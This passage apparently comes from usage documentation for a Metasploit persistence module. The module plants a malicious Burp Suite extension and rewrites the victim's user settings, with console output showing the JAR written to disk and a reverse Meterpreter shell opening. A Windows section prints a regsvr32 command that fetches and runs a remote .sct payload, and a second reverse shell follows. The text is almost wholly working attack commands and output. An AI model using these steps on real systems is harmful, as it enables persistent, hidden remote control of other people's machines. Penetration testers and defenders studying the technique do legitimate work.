 Import user settings:

1. From the main GUI click Settings
2. Click the 3 dots in the top right corner
3. Select User settings > Load user settings
4. select the file which was previously saved
5. Upon loading, the payload will execute

```
[msf](Jobs:0 Agents:2) exploit(multi/local/burp_extension_persistence) > set action precompiled
action => precompiled
[msf](Jobs:0 Agents:1) exploit(multi/local/burp_extension_persistence) > set config /tmp/user_settings.json
config => /tmp/user_settings.json
[msf](Jobs:0 Agents:1) exploit(multi/local/burp_extension_persistence) > exploit
[*] Exploit running as background job 4.
[*] Exploit completed, but no session was created.
[msf](Jobs:1 Agents:1) exploit(multi/local/burp_extension_persistence) > 
[*] Started reverse TCP handler on 1.1.1.1:4444 
[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_registry_check_key_exists, stdapi_registry_create_key, stdapi_registry_delete_key, stdapi_registry_enum_key_direct, stdapi_registry_enum_value_direct, stdapi_registry_load_key, stdapi_registry_open_key, stdapi_registry_query_value_direct, stdapi_registry_set_value_direct, stdapi_registry_unload_key, stdapi_sys_config_getprivs
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found config file: /root/.java/.userPrefs/burp/prefs.xml
[*] Found config file: /root/.java/.userPrefs/burp/community/prefs.xml
[*] Config mentioned in settings, but not found: /tmp/burp.json
[!] The service is running, but could not be validated. Config file found: /tmp/user_settings.json
[*] Using extension name: sDojM
[*] Creating JAR file
[*] Writing malcious extension to disk: /tmp//sDojM.jar
[*] Updating config file
[+] Config file saved in: /root/.msf4/loot/20250121145043_default_1.1.1.1_burp.config.json_619066.bin
[+] Extension written to disk, waiting for Burp to open and user to install extension.
[*] Sending stage (24772 bytes) to 1.1.1.1
[*] Meterpreter session 3 opened (1.1.1.1:4444 -> 1.1.1.1:37714) at 2025-01-21 14:52:27 -0500
```

### Windows 

Initial shell
```
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > set target 3
target => 3
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 5.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:0) exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4646 
[*] Using URL: http://1.1.1.1:8282/ZOfTYkv5jpRpcv
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://1.1.1.1:8282/ZOfTYkv5jpRpcv.sct scrobj.dll
[*] Sending stage (203846 bytes) to 2.2.2.2
[*] Meterpreter session 4 opened (1.1.1.1:4646 -> 2.2.2.2:51773) at 2025-01-21 15:11:44 -0500
```
